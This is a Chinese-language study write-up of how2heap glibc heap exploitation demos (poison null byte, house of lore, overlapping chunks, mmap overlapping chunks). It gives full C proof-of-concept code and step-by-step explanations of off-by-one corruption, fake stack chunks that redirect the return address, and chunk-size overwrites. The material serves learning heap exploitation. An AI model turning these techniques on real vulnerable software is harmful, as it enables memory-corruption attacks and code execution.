

[how2heap](https://github.com/shellphish/how2heap)

## poison_null_byte

移除了部分注释，将代码拆解成了14部分

```c
int main()
{
    uint8_t* a;
    uint8_t* b;
    uint8_t* c;
    uint8_t* b1;
    uint8_t* b2;
    uint8_t* d;
    void *barrier;

    // 1
    a = (uint8_t*) malloc(0x100);
    int real_a_size = malloc_usable_size(a);

    // 2
    b = (uint8_t*) malloc(0x200);

    fprintf(stderr, "b: %p\n", b);

    // 3
    c = (uint8_t*) malloc(0x100);
    fprintf(stderr, "c: %p\n", c);

    // 4
    barrier =  malloc(0x100);
    fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
    "The barrier is not strictly necessary, but makes things less confusing\n", barrier);

    // 5
    uint64_t* b_size_ptr = (uint64_t*)(b - 8);

    // 6
    *(size_t*)(b+0x1f0) = 0x200;

    // 7
    free(b);

    // 8
    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    // 9
    uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
    fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

    // 10
    fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
    *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x100);

    // 11
    b2 = malloc(0x80);
    fprintf(stderr, "b2: %p\n",b2);

    memset(b2,'B',0x80);
    fprintf(stderr, "Current b2 content:\n%s\n",b2);

    // 12
    fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

    free(b1);
    free(c);

    // 13
    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
    d = malloc(0x300);
    fprintf(stderr, "d: %p\n",d);

    // 14
    fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
    memset(d,'D',0x300);

    fprintf(stderr, "New b2 content:\n%s\n",b2);

    fprintf(stderr, "Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
    "for the clear explanation of this technique.\n");
}
```

1. a 分配了0x100个字节，并获取了它实际可用大小0x108。用于之后溢出 (`off-by-one`)
2. b 分配了0x200个字节，实际0x210
3. c 分配了0x100个字节，实际0x110
4. barrie 分配了0x100个字节。用于避免c被合并到topchunk中
5. b_size_ptr 被赋值为b - 8的地址，即b chunk大小字段地址
6. b+0x1f0 被赋值为0x200。是为了之后触发unlink(b)的时候绕过[chunk_size == next->prev->chunk_size](https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30)的检查。

    ```c
    #define unlink(AV, P, BK, FD) {                                            \
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
        malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    ```

    - 因为b的size被覆盖了一个NULL字节，chunk_size(b) == 0x200
    - `b - 0x10 + 0x200`即 `b + 0x1f0` 理论上就是next_chunk->prev_size字段，所以这里被赋值为0x200
7. `free(b)` 即b被加入unsortedBin
8. a[108] 被赋值为0，即溢出了一个NULL字节，bsize现在等于0x200
9. c_prev_size_ptr被赋值为c - 2，此时是0x210
10. b1 分配了0x100个字节，这一步触发了`unlink(b)`，此时b的前0x100个字节被分配给了b1。理论上来说c_prev_size_ptr指针的值应当会改变，但目前仍然是0x210，因为源码是根据b以及b size的偏移来更改的，所以实际被更改的是c-4的地址的值。
11. b2 分配了0x80，也是从原先的b chunk中分割出来的，全部用字符'B'填充
12. 释放b1和c。释放c的时候由于prev_size还是0x211，导致c向前合并0x210个字节。而中间的b2被无视了。。
13. d 分配了0x300字节，指向的是b chunk，大小是size(b + c) 即0x300。此时d和b2已经重叠了。
14. d被塞满了字符'D'，导致b2内容被更改

作者在代码末尾提到的paper中有张图诠释的很好：


## house_of_lore

这个例子主要是通过伪造chunk、fd和bk指针，使栈上的地址被安排到smallbin中，再通过malloc和memcpy来伪造数据，更改返回地址。

```c
void jackpot(){
    fprintf(stderr, "Nice jump d00d\n"); exit(0);
}

int main(int argc, char * argv[]){

    // 1
    intptr_t* stack_buffer_1[4] = {0};
    intptr_t* stack_buffer_2[3] = {0};
    intptr_t *victim = malloc(0x100);

    // victim-WORD_SIZE because we need to remove the header size in order to have the absolute address of the chunk
    intptr_t *victim_chunk = victim-2;

    stack_buffer_1[0] = 0;
    stack_buffer_1[1] = 0;
    stack_buffer_1[2] = victim_chunk;

    stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
    stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

    // 2
    void *p5 = malloc(1000);
    fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);

    fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
    free((void*)victim);

    void *p2 = malloc(1200);

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");

    // 3
    victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack

    //------------------------------------

    fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");
    fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");

    // 4
    void *p3 = malloc(0x100);

    char *p4 = malloc(0x100);

    fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
            stack_buffer_2[2]);

    // 5
    intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
    memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary

    // sanity check
    assert((long)__builtin_return_address(0) == (long)jackpot);
}
```

源码被划分成5个步骤：

1. 栈上伪装一个chunk，主要完成了以下工作:

    stack_buffer_1 -> fd = victim_chunk

    stack_buffer_1 -> bk = stack_buffer_2[0]

    stack_buffer_1 -> fd = stack_buffer_1 // 这步是为了绕过small bin的检查：

2. malloc后free，此时victim_chunk被加入unsorted bin，再次malloc使victim_chunk被加入small bin

3. 更改了victim_chunk的bk指针，指向stack_buffer_1，此时small bin就相当于有两个chunk

4. p3 被分配0x100字节，victim_chunk从small bin弹出，这时small bin->bk 指向的是stack_buffer_1

   p4 被分配0x100字节，这块内存的首地址是small bin->bk， 即stack_buffer_1 + 0x10的地址(mem)

   同时，由于stack_buffer_1这个fake chunk的bk指向的是stack_buffer_2，且stack_buffer_2的fd指向的是stack_buffer_1，所以，当stack_buffer_1从small bin取出后，small bin->bk指向的就是stack_buffer_2

5. 此时p4指向的是栈地址，即stack_buffer_1 + 0x10的地址，所以可以通过memcpy可以更改栈上的数据。

   接着就是读取函数地址，并将其赋值给p4+40，绕过stack canary检查，覆盖返回地址。即完成ROP攻击。

参考下图：



## overlapping_chunks

free后改写chunk的size字段，使之后malloc的空间大于其原本的空间大小，与其他指针所指向的数据区域重叠

```c
int main(int argc , char* argv[]){
    // 1
    intptr_t *p1,*p2,*p3,*p4;

    p1 = malloc(0x100 - 8);
    p2 = malloc(0x100 - 8);
    p3 = malloc(0x80 - 8);

    memset(p1, '1', 0x100 - 8);
    memset(p2, '2', 0x100 - 8);
    memset(p3, '3', 0x80 - 8);

    fprintf(stderr, "\nNow let's free the chunk p2\n");
    free(p2);

    // 2
    int evil_chunk_size = 0x181;
    int evil_region_size = 0x180 - 8;

    *(p2-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

    // 3
    p4 = malloc(evil_region_size);

    // 4
    memset(p4, '4', evil_region_size);
    memset(p3, '3', 80);
}
```

1. 分配三块连续的内存，并填充不同的数据。释放p2，存入unsorted bin
2. p2的size字段被设置为0x180，并且设置了prev_inuse为1
3. p4被分配了0x180-8大小，unsorted bin中的chunk被取出，而该chunk的大小比原先大了0x80，导致p4末尾的区域与p3重叠了
4. 用‘4’填充p4，覆盖掉了p3的数据；更改p3部分数据，覆盖掉p4部分数据

## overlapping_chunks_2

这个与上一个的区别是在free之前更改大小

```c
int main(){
    // 1
    intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
    unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
    int prev_in_use = 0x1;

    p1 = malloc(1000);
    p2 = malloc(1000);
    p3 = malloc(1000);
    p4 = malloc(1000);
    p5 = malloc(1000);

    real_size_p1 = malloc_usable_size(p1);
    real_size_p2 = malloc_usable_size(p2);
    real_size_p3 = malloc_usable_size(p3);
    real_size_p4 = malloc_usable_size(p4);
    real_size_p5 = malloc_usable_size(p5);

    memset(p1,'A',real_size_p1);
    memset(p2,'B',real_size_p2);
    memset(p3,'C',real_size_p3);
    memset(p4,'D',real_size_p4);
    memset(p5,'E',real_size_p5);

    free(p4);

    // 2
    *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 

    free(p2);

    // 3
    p6 = malloc(2000);
    real_size_p6 = malloc_usable_size(p6);

    // 4
    memset(p6,'F',1500);
```

 1. 分配了5块内存，并用不同的字符填充内存块。最后释放p4(这一步不做也没影响)
 2. 伪装一个chunk size, 塞到p2的chunk size位置，让系统认为p2的chunk size 有size(p2+p3)那么大；释放p2。
 3. 分配了一块size(p2+p3)大小的内存给p6，覆盖了p3的内存
 4. 填充p6的数据，导致p3数据被修改

## mmap_overlapping_chunks

如果malloc的参数大小超过了`mp_.mmap_threshold`，系统就会通过mmap来分配内存，由munmap来释放内存返回给kernel。通过mmap分配的内存的元数据中，m位被置为1，代表是mmap分配的。

Mmap chunk的prev_size代表mmap chunk的剩余空间，而不是下一个块的大小。并且，chunk被释放时也不会使用到fd和bk指针，因为它不会被放回bins中。

这里描述的也是覆盖chunk的攻击，只不过这里的chunk是通过mmap来分配的。

```c
int main(){
    int* ptr1 = malloc(0x10);

    // 1
    long long* top_ptr = malloc(0x100000);
    printf("The first mmap chunk goes directly above LibC: %p\n",top_ptr);

    // After this, all chunks are allocated downwards in memory towards the heap.
    long long* mmap_chunk_2 = malloc(0x100000);
    printf("The second mmap chunk goes below LibC: %p\n", mmap_chunk_2);

    long long* mmap_chunk_3 = malloc(0x100000);
    printf("The third mmap chunk goes below the second mmap chunk: %p\n", mmap_chunk_3);

    // 2
    // Vulnerability!!! This could be triggered by an improper index or a buffer overflow from a chunk further below.
    // Additionally, this same attack can be used with the prev_size instead of the size.
    mmap_chunk_3[-1] = (0xFFFFFFFFFD & mmap_chunk_3[-1]) + (0xFFFFFFFFFD & mmap_chunk_2[-1]) | 2;
    printf("New size of third mmap chunk: 0x%llx\n", mmap_chunk_3[-1]);
    printf("Free the third mmap chunk, which munmaps the second and third chunks\n\n");

   
    // Munmaps both the second and third pointers
    free(mmap_chunk_3); 

    /* 
    Would crash, if on the following:
    mmap_chunk_2[0] = 0xdeadbeef;
    This is because the memory would not be allocated to the current program.
    */

    // 3
    // Gets the distance between the two pointers.
    long long* overlapping_chunk = malloc(0x300000);

    // 4
    int distance = mmap_chunk_2 - overlapping_chunk;
    printf("Distance between new chunk and the second mmap chunk (which was munmapped): 0x%x\n", distance);
    printf("Value of index 0 of mmap chunk 2 prior to write: %llx\n", mmap_chunk_2[0]);

    // Set the value of the overlapped chunk.
    printf("Setting the value of the overlapped chunk\n");
    overlapping_chunk[distance] = 0x1122334455667788;

    assert(mmap_chunk_2[0] == overlapping_chunk[distance]);
}

```

1. 分配了三块0x100000大小的内存，这些都是通过mmap分配的，所以不在heap的区域。第一块位于libc上方，而第二块位于libc下方，第三块位于第二块的下方。
2. 更改chunk3的size字段，改成了size(chunk3+chunk2)，大小为0x202002，然后释放chunk3。此时由于从chunk3 + 0x202000的区域已经返回给kernel，所以一旦操作读写chunk2就会造成崩溃
3. 新分配一块内存，大小需要超过刚才被释放的大小0x202000，因为在前一步释放的过程中，mmapthreshold被更新成了0x202000。此时这块新分配的内存，覆盖掉了之前munmap的内存。
4. 获取chunk2和overlappingChunk之间的距离，最后通过改写overlappingchunk的数据来改写chunk2的数据，完成攻击

参考：[munmap madness](http://tukan.farm/2016/07/27/munmap-madness/)
